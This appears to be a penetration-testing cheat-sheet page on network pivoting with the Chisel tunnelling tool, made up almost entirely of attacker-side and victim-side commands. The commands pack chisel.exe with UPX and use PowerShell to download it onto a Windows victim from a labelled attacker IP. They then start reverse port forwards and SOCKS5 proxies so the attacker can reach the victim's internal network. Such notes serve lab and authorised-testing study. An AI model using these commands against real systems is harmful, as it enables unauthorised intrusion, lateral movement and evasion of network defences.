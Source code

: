 * [PayloadsAllTheThings/Network Pivoting Techniques.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)




## Chisel

1. [github.com/jpillora/chisel/releases](https://github.com/jpillora/chisel/releases)
2. [snovvcrash.github.io/2020/03/17/htb-reddish.html#chisel-socks](https://snovvcrash.github.io/2020/03/17/htb-reddish.html#chisel-socks)

* Attacker's IP: 10.10.13.37
* Victims's IP: 10.10.13.38

Reverse forward port 1111 from Windows machine to port 2222 on Linux machine:

```
root@kali:$ wget [1/linux]
root@kali:$ gunzip chisel*.gz && rm chisel*.gz && mv chisel* chisel && chmod +x chisel

root@kali:$ wget [1/windows]
root@kali:$ gunzip chisel*.exe.gz && rm chisel*.exe.gz && mv chisel*.exe chisel.exe && upx chisel.exe
root@kali:$ md5sum chisel.exe

root@kali:$ ./chisel server -p 8000 -v --reverse

PS > (new-object net.webclient).downloadfile("http://10.10.13.37/chisel.exe", "$env:userprofile\music\chisel.exe")
PS > get-filehash -alg md5 chisel.exe
PS > Start-Process -NoNewWindows chisel.exe client 10.10.13.37:8000 R:127.0.0.1:2222:127.0.0.1:1111
```

Socks5 proxy with Chisel in server mode:

```
1. user@victim:$ ./chisel server -p 8000 --socks5 &
2. root@kali:$ ./chisel client 10.10.13.38:8000 socks
```

Socks5 proxy with Chisel in server mode when direct connection to server is not available (not relevant as Chisel now supports socks5 in client mode):

```
1. root@kali:$ ./chisel server -p 8000 --reverse
2. user@victim:$ ./chisel client 10.10.13.37:8000 R:127.0.0.1:8001:127.0.0.1:8002 &
3. user@victim:$ ./chisel server -v -p 8002 --socks5 &
4. root@kali:$ ./chisel client 127.0.0.1:8001 1080:socks
```

Socks5 proxy with Chisel in client mode:

```
1. root@kali:$ ./chisel server -p 8000 --reverse --socks5
2. user@victim:$ ./chisel client 10.10.13.37:8000 R:socks
```
